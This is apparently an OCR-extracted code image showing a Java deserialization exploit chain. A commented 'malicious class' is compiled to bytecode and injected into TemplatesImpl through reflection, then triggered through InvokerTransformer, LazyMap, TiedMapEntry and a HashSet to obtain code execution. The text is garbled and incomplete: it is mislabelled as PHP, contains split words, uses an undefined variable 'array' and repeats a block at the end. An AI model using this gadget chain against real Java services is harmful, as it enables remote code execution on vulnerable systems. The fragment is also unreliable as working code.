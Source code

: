 ```php
        // 将我的恶意类转成字节码，并且反射设置 bytecodes
        byte[] classBytes = cc.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();

        Field f0 = templates.getClass().getDeclaredField("_bytecodes");
        f0.setAccessible(true);
        f0.set(templates,targetByteCodes);

        f0 = templates.getClass().getDeclaredField("_name");
        f0.setAccessible(true);
        f0.set(templates,"name");
        f0 = templates.getClass().getDeclaredField("_class");
        f0.setAccessible(true);
        f0.set(templates,null);

        InvokerTransformer transformer = new InvokerTransformer("asdfasdfasdf", new Class[0], new O bject[0]);
        HashMap innermap = new HashMap();
        LazyMap map = (LazyMap)LazyMap.decorate(innermap,transformer);
        TiedMapEntry tiedmap = new TiedMapEntry(map,templates);
        HashSet hashset = new HashSet(1);
        hashset.add("foo");
        Field f = null;
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        O bject node = array[0];
        if(node == null){
            node = array[1];
        }
        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        keyField.set(node,tiedmap);

        Field f3 = transformer.getClass().getDeclaredField("iMethodName");
        f3.setAccessible(true);
        f3.set(transformer,"newTransformer");
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }
        f.setAccessible(true);
        HashMap hashset_map = (HashMap) f.get(hashset);

```